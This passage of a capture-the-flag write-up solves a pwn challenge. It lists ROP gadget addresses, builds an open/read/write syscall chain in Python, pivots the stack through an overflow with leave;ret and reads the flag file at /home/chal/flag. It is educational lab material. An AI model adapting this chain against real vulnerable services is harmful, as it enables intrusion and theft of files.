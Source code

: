     ```python!
    pop_rax_ret = 0x45db87
    pop_rdi_ret = 0x4038b3
    pop_rsi_ret = 0x402428
    pop_rdx_rbx_ret = 0x493a2b
    syscall_ret = 0x4284b6
    leave_ret = 0x40190c
    ```
3. Construct `ROP` chain
    ```python!
    ROP = flat(
       # Open filename
       # fd = open("flag", 0);
       pop_rax_ret, 2,
       pop_rdi_ret, fn,
       pop_rsi_ret, 0,
       syscall_ret,

       # Read the file
       # read(fd, buf, 0x30);
       pop_rax_ret, 0,
       pop_rdi_ret, 3,    # we can oversee the fd is 3 because 0,1,2 are preserved by default
       pop_rsi_ret, fn,
       pop_rdx_rbx_ret, 0x30, 0,
       syscall_ret,

       # Write the file
       # write(1, buf, 0x30); // 1 --> stdout
       # the 2nd and 3rd argument are the same to read
       pop_rax_ret, 1,
       pop_rdi_ret, 1,
       syscall_ret,
       )
    ```
4. Write `ROP` chain to global variable(a new stack)
    ```python!
    r.sendafter("Give me ROP:", b'a'*0x8 + ROP)
    ```
    * Note that, you must try and error to observe how many bytes you have to overlap by trash such as `b'a'*0x8`
5. Stack pivoting
    ```python!
    r.sendafter('Give me overflow:', b'a'*0x20 + p64(ROP_addr) + p64(leave_ret))
    ```
    * Note that, you must try and error to observe how many bytes you have to overlap by trash such as `b'a'*0x20`
6. Where is the flag file in remote server?
You can build the docker and observe the relative position → `/home/chal/flag`
    ```python!
    r.sendafter("Give me filename:", '/home/chal/flag\x00')
    ```
7. Then we got flag!!!
    ![](https://imgur.com/DdvxfZy.png)